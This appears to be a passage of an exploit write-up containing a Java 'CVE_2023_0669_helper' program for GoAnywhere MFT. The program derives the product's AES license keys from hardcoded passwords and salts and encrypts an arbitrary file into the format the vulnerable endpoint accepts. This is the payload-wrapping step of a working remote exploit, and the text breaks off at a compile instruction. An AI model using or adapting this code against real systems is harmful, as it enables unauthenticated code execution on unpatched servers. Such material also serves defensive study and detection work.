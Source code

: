 ```java
    static byte[] KEY = new byte[30];
    static byte[] IV = "AES/CBC/PKCS5Pad".getBytes(StandardCharsets.UTF_8);

    public static void main(String[] args) throws Exception {
        if (args.length != 2) {
            System.out.println("Usage: java CVE_2023_0669_helper <file_path> <version>");
            System.exit(1);
        }

        String filePath = args[0];
        String version = args[1];
        byte[] fileContent = Files.readAllBytes(Paths.get(filePath));
        String encryptedContent = encrypt(fileContent, version);
        System.out.println(encryptedContent);
    }

    public static String encrypt(byte[] data, String version) throws Exception {
        Cipher cipher = Cipher.getInstance(ALGORITHM);
        KEY = (version.equals("2")) ? getInitializationValueV2() : getInitializationValue();
        SecretKeySpec keySpec = new SecretKeySpec(KEY, "AES");
        IvParameterSpec ivSpec = new IvParameterSpec(IV);
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedObject = cipher.doFinal(data);
        String bundle = Base64.getUrlEncoder().encodeToString(encryptedObject);
        String v = (version.equals("2")) ? "$2" : "";
        bundle += v;
        return bundle;
    }

    private static byte[] getInitializationValue() throws Exception {
        // Version 1 Encryption
        String param1 = "go@nywhereLicenseP@$$wrd";
        byte[] param2 = {-19, 45, -32, -73, 65, 123, -7, 85};
        return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1")
                .generateSecret(new PBEKeySpec(param1.toCharArray(), param2, 9535, 256))
                .getEncoded();
    }

    private static byte[] getInitializationValueV2() throws Exception {
        // Version 2 Encryption
        String param1 = "pFRgrOMhauusY2ZDShTsqq2oZXKtoW7R";
        byte[] param2 = {99, 76, 71, 87, 49, 74, 119, 83, 109, 112, 50, 75, 104, 107, 56, 73};
        return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1")
                .generateSecret(new PBEKeySpec(param1.toCharArray(), param2, 3392, 256))
                .getEncoded();
    }
}

```
first, we need to compile the code by this command
